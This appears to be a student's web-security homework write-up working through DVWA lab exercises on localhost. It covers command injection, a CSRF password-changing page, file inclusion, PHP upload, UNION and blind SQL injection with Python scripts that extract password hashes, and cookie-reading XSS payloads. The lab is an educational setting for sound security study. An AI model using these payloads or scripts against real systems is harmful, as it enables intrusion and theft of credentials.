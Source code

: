 **Coverage**	 Web Security: SQL Injection, CSRF, XSS, etc.  <br />**Due**			 April 15, 2022


### 1 Command Injection
Ref. RCE, Remote Command Execute: [https://blog.csdn.net/qq_43814486/article/details/90020139](https://blog.csdn.net/qq_43814486/article/details/90020139)
![image.png](./assets/1647936086901-8e0eeadd-bd19-4242-b076-37454dbb3f54.png)
The php just puts the command _ping + target_ into shell and returns the result. So if we generate commands like `ping 1.1.1.1 && dir`, we can do something after the ping is done and get the output.<br />(Or use `ping 1.1.1.1 & dir`, where the latter command will be run no matter the 

Ref. Find user name: [https://support.logmeininc.com/central/help/how-do-i-find-my-windows-user-name](https://support.logmeininc.com/central/help/how-do-i-find-my-windows-user-name)
![image.png](./assets/1647935888711-8780a59e-a3b3-43fd-8c41-298744a13d97.png)
Ref. Find hostname: [https://jingyan.baidu.com/article/ff42efa9ffad1ac19e22029a.html](https://jingyan.baidu.com/article/ff42efa9ffad1ac19e22029a.html)
![image.png](./assets/1647935829524-9bb9ca64-77f9-4996-9f70-e336ff41f569.png)
I tried `127.0.0.1 && net user` but it returns nothing but the result of ping, which is different when I test in the cmd:
![image.png](./assets/1647937767749-1ddfc1aa-6f6d-4ec8-8beb-c32ef201fc60.png)
![image.png](./assets/1647937784923-98676d0c-1608-409d-9d53-7c8324e63fc7.png)
When I try `127.0.0.1 && net user && ipconfig`, it turns out like:
![image.png](./assets/1647937810645-6e4a8e3f-145c-477c-84b4-e6ee609543e4.png)
But `127.0.0.1 && net user & ipconfig` turns out like:
![image.png](./assets/1647937837334-18c441ee-d087-456b-a6ca-1b2c6fed391b.png)
Which shows that there is an error when running `net user`, but I can't find the error...


### 2  CSRF (Cross-Site Request Forgery)  
We can see the source or try to change the password. We can find that the source checks whether `pass_new` matches `pass_conf`and uses `dvwaCurrentUser()` to get the current user to change the password in the database, checking nothing about the cookies. 

So if we let a user (shortly after testing credentials) click a link like `http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=0&password_conf=0&Change=Change#`, we can change his/her password to `0`.

For example, we can write a HTML like this, and send it to the user:
```html
<!DOCTYPE HTML>
<html>
  <head>
    <meta charset = "utf-8">
    <title>盗号网页</title>
  </head>
  <body>
    <img src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=xyx&password_conf=xyx&Change=Change#" alt="">
	<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=xyx&password_conf=xyx&Change=Change#">不要点</a>
  </body>
</html>
```
Here, when the browser tries to access the img, it will send a GET request to the src, which is actually changing the password to `xyx`. Also, if the user click the link, it will perform the same action.

Before accessing this webpage, the database is like:
![image.png](./assets/1647940141485-4658ac1d-a3ee-41ac-993b-3c56f99b91de.png)
After accessing it:
![image.png](./assets/1647940332197-755b8ce9-f9b5-4f9e-9e01-25abdd43767c.png)


### 3 File Inclusion
We try to access the following URL:<br />`127.0.0.1/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php`

And we can get the result below, which is not complete:
![image.png](./assets/1648110844402-408139a3-7260-4b81-bfdf-e4f624eb1a24.png)

We try to use `php://filter` (ref: [https://blog.csdn.net/destiny1507/article/details/82347371](https://blog.csdn.net/destiny1507/article/details/82347371))
`http://127.0.0.1/DVWA/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=../../hackable/flags/fi.php`, and we can get a string, which is base64 encoded source code of fi.php:
![image.png](./assets/1648222731636-6aa36d7d-4ae5-4f1f-b61b-b50815c3a1d3.png)

Decode it:![image.png](./assets/1648222824813-c078b7c1-ff14-4604-b4f9-d2280b321b85.png)
And we can get the php source code, which has the 5 quotes in it:
```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->

```


### 4  File Upload 
```php
<?php echo "I'm Saltyfish Xuan!"; ?>
  
```
We can directly upload the file, and we can know its location:
![image.png](./assets/1648225797582-458976c7-e952-4690-8f4b-89d65843bee0.png)
And we can simply access it:<br />`127.0.0.1/DVWA/hackable/uploads/t4.php`
![image.png](./assets/1648225847665-9dd7517d-548f-4cf8-97a6-43e1fb1e56ba.png)

### 5 SQL Injection
From the source code we can know that, if we input<br />`1' union SELECT first_name, password as last_name FROM users WHERE '1'='1`, <br />the query will be:<br />`SELECT first_name, last_name FROM users WHERE user_id = '1' union SELECT first_name, password as last_name FROM users WHERE '1'='1'`<br />Which can get the following outcome:
![image.png](./assets/1648226191574-510d9a73-261e-42dd-822d-3eb4a06319ee.png)


### 6  SQL Injection (Blind)  
Ref: [https://www.jianshu.com/p/757626cec742](https://www.jianshu.com/p/757626cec742) mentions a method to manually test the length or value of fields. For example, the following query can show whether the length is 32 by the existance of the outcome.<br />`SELECT first_name, last_name FROM users WHERE user_id = 'x' or length(select password from users limit 1, 1) = 32`

But this is too complicated! So I wrote a script:
```python
#coding:utf-8
from urllib.request import *
 
headers = {
    'Connection':'keep-alive', 
    'Cookie':'PHPSESSID=e9p4r3ebqh1k6k6bpgtmejfek9; security=low'
}
#构造请求
for i in range(0, 5):
    for len in range(100):
        url = f"http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=x'or+length(substr((select+password+from+users+limit+{i},+1),1))+%3D+{len}%23&Submit=Submit#"
        try:
            request = Request(url = url, headers = headers)
            response = urlopen(request).read()
            #print(response)
            if response.find(b'MISSING') == -1:
                print(f"The length of user {i}'s password is {len}")
                break
        except:
            pass
```
The Cookie is from my browser.

I noticed that when the result is MISSING, the status will be 404, so I catch the exceptions. The outcome is like this:
![image.png](./assets/1648231217394-13bb8b24-84ec-417c-9135-c5bc61049a83.png)

Next, we can guess the ascii of each char of the password:
```cpp
#coding:utf-8
from urllib.request import *
 
headers = {
    'Connection':'keep-alive', 
    'Cookie':'PHPSESSID=e9p4r3ebqh1k6k6bpgtmejfek9; security=low'
}
#构造请求
for i in range(0, 5):
    for len in range(100):
        url = f"http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=x'or+length(substr((select+password+from+users+limit+{i},+1),1))+%3D+{len}%23&Submit=Submit#"
        try:
            request = Request(url = url, headers = headers)
            response = urlopen(request).read()
            #print(response)
            if response.find(b'MISSING') == -1:
                print(f"The length of user {i}'s password is {len}")
                for j in range(0, len):
                    for k in range(48, 123):
                        url2 = f"http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=x'or+ascii(substr((select+password+from+users+limit+{i},+1),{j+1},1))+%3D+{k}%23&Submit=Submit#"
                        try:
                            request = Request(url = url2, headers = headers)
                            response = urlopen(request).read()
                            if response.find(b'MISSING') == -1:
                                print(chr(k), end = '')
                                break
                        except:
                            pass
                print('\n')
                break
        except:
            pass
```
And it can get the password of each user (although kind of slow...)
![image.png](./assets/1648231904573-bb9259a0-2180-4643-9bfc-95a7630c1926.png)


### 7  Weak Session IDs 
From the source we can know that, the session ID is just set 0 for the first access, and +1 for each new session, which is easily predicted.


### 8  XSS (DOM)  
`127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>`
![image.png](./assets/1648235162204-3485076d-2dd2-4163-9124-9ad5e14a3fad.png)
We can see that, it just insert the value of `default` into the option, which makes our script run automatically:
![image.png](./assets/1648235287411-305f89fa-e588-4f89-ad2c-59b02a1e58c6.png)
Actually, we can use whatever JS script here.


### 9  XSS (Reflected)  
We can put this into the textbox: `<script>alert(document.cookie)</script>`<br />Or just access this URL: `http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E#`<br />And we can get the cookie:
![image.png](./assets/1648235438711-0cab4cca-4a0c-462e-a0d1-10cf2b9d372c.png)
As the source is trying to print our "name" on the page without any filtering, we can insert JS scripts on it, which is similar to the Problem 8.


### 10 XSS (Stored)  
We can put this into the box:
![image.png](./assets/1648235603575-65139fa8-64d6-4a49-8d25-cc8f7eac692b.png)
Similar to Problem 9, as the webpage is trying to display our message without filtering, it enables us to insert some scripts.
![image.png](./assets/1648235614520-9bb9c650-53e7-407a-a64c-8c61ab983b2a.png)
![image.png](./assets/1648235587949-e897e112-5291-445e-8001-323426dea89a.png)
That is, whenever a webpage is not filtering the input and display it on the webpage, we can find ways to construct some input, which can be recognized as scripts by the browser and do something we want.
